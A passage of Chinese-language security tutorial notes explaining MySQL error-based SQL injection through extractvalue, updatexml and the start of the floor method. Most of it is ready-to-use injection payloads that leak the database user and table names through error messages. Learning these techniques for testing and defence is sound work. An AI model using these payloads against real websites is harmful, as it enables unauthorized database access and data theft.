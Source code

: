 ##### b. 方法

###### ①XPATH

1. **extractvalue**

> extractvalue(arg1,arg2)
>
> arg1：**XML文档**，arg2：**XPATH语句**，至少接收2个参数
>
> mysql5.1及以上

* 标准payload

  ```sql
  1' and extractvalue(1,concat(0x7e,user(),0x7e)) --+
  
  //在报错信息中查询出
  1' and extractvalue(1,arg2) --+
  arg2= concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```

![报错注入信息](http://113.45.142.235:9001/laffrex/pictures/extractvalue报错注入.png)

2. **updatexml**

> updatexml(arg1,arg2,arg3)
>
> arg1为**xml文档**，arg2为**指定位置xpath的字符串**，arg3为String格式的**新值**
>
> mysql5.1.5及以上版本

* 标准payload

  ```sql
  1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+		'#使用0x7e是为了避免查找出的数据被替换掉
  
  1' and updatexml(1,arg2,1) --+
  arg2 = concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```

  ![updatexml报错注入](http://113.45.142.235:9001/laffrex/pictures/updatexml报错注入.png)

###### ②主键冲突floor

> mysql版本属于[5.1.5，~]
>
> 返回**向下取整的整数**，**只返回**arg1的**整数部分**
>
> mysql5.0及以上版本，<8.0
>
> [【web安全】——floor报错注入-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/128569910)

* 标准payload
